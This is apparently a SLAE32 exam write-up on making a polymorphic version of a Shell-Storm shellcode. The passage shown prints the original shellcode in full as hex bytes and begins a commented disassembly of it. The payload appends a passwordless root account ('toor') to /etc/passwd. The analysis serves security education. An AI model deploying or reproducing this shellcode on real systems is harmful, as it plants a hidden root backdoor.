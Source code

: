 - [original_shellcode.nasm](https://github.com/rbctee/SlaeExam/blob/main/slae32/assignment/6/part/2/original_shellcode.nasm), the original shellcode from Shell-Storm
- [polymorphic_shellcode.nasm](https://github.com/rbctee/SlaeExam/blob/main/slae32/assignment/6/part/2/polymorphic_shellcode.nasm), my polymorphic version of the shellcode above
- [test_polymorphic_shellcode.c](https://github.com/rbctee/SlaeExam/blob/main/slae32/assignment/6/part/2/test_polymorphic_shellcode.c), a C program for testing the polymorphic shellcode

## Analysis

First, we need to analyse the original shellcode:

```bash
echo -n "\xeb\x38\x5e\x31\xc0\x88\x46\x0b\x88\x46\x2b\xc6\x46\x2a\x0a\x8d\x5e\x0c\x89\x5e\x2c\x8d\x1e\x66\xb9\x42\x04\x66\xba\xa4\x01\xb0\x05\xcd\x80\x89\xc3\x31\xd2\x8b\x4e\x2c\xb2\x1f\xb0\x04\xcd\x80\xb0\x06\xcd\x80\xb0\x01\x31\xdb\xcd\x80\xe8\xc3\xff\xff\xff\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64\x23\x74\x6f\x6f\x72\x3a\x3a\x30\x3a\x30\x3a\x74\x30\x30\x72\x3a\x2f\x72\x6f\x6f\x74\x3a\x2f\x62\x69\x6e\x2f\x62\x61\x73\x68\x20\x23" > shellcode.bin

ndisasm -b 32 -p intel shellcode.bin
```

Follows the output of `ndisasm`:

```nasm
                            ; Use the JMP-CALL-POP technique get a pointer to the string starting from address
                            ;   0000003A and ending at 00000069
                            ; the string is: /etc/passwd#toor::0:0:t00r:/root:/bin/bash #
00000000  EB38              jmp short 0x3a
00000002  5E                pop esi

                            ; clear the EAX register
00000003  31C0              xor eax,eax

                            ; replace the '#' character after '/etc/passwd'
                            ;   with a NULL byte
00000005  88460B            mov [esi+0xb],al

                            ; replace the '#' character after '/bin/bash '
                            ;   with a NULL byte
00000008  88462B            mov [esi+0x2b],al

                            ; replace the space after '/bin/bash'
                            ;   with a Line Feed (0x0a)
0000000B  C6462A0A          mov byte [esi+0x2a],0xa

                            ; store the pointer to 'toor::0:0:t00r:/root:/bin/bash'
                            ;   into EBX
0000000F  8D5E0C            lea ebx,[esi+0xc]

                            ; save the previous pointer after the following string:
                            ;   'toor::0:0:t00r:/root:/bin/bash\x0a\x00'
00000012  895E2C            mov [esi+0x2c],ebx

                            ; copy ESI into EBX
                            ;   it's pointing to the string "/etc/passwd"
00000015  8D1E              lea ebx,[esi]

                            ; 2nd argument of open():
                            ;   flags applied when opening the file:
                            ;     - O_APPEND
                            ;     - O_CREAT
                            ;     - O_RDWR
00000017  66B94204          mov cx,0x442

```